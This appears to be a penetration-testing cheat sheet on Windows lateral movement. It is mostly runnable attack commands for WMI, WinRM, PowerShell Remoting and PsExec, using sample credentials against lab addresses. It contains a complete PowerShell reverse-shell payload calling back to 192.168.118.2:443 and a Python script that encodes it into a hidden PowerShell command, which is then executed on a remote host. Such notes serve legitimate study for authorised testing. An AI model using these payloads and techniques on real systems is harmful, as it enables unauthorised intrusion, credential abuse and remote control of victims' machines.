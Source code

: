 # Lateral Movement

{% embed url="https://hackmag.com/security/lateral-guide/" %}

{% code overflow="wrap" fullWidth="true" %}
```csharp
##### WMI
# Need credentials of a member of the Administrators local group or domain user
wmic /node:$TARGET_IP /user:pepe /password:Pass123! process call create "calc"
# PS variant is PSCredential
$username = 'jen'; 
$password = 'Nexus123!'; 
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString; 
# Then creating a new CimSession
$options = New-CimSessionOption -Protocol DCOM 
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
# We could replace this to get a reverse shell, but first we encode the PS revshell
import sys 
import base64
payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out- String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Leng th);$stream.Flush()};$client.Close()'
cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
# Then we run the Python script to retrieve the output
python3 encode.py
# Now the whole PS WMI script
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString; 
$options = New-CimSessionOption -Protocol DCOM 
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'powershell -nop -w hidden -e ABzA...yH';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

#### WINRM 
winrs -r:$TARGET_HOSTNAME -u:$USER -p:$PASS "cmd /c hostname & whoami & powershell -nop -w hidden -e JA...MA" # only works for domain users part of Administrator or Remote Management Users
# PowerShell Remoting
$username = 'jen'; 
$password = 'Nexus123!'; 
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString; 
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
PS C:\Users\jeff> Enter-PSSession 1 
[192.168.50.73]: PS C:\Users\jen\Documents> whoami 
corp\jen

#### PSEXEC (the user that authenticates on the target machine needs to be part of the Administrators local group)
./PsExec64.exe -i \\$TARGET_HOSTNAME -u $domain\$USER -p $PASS cmd

```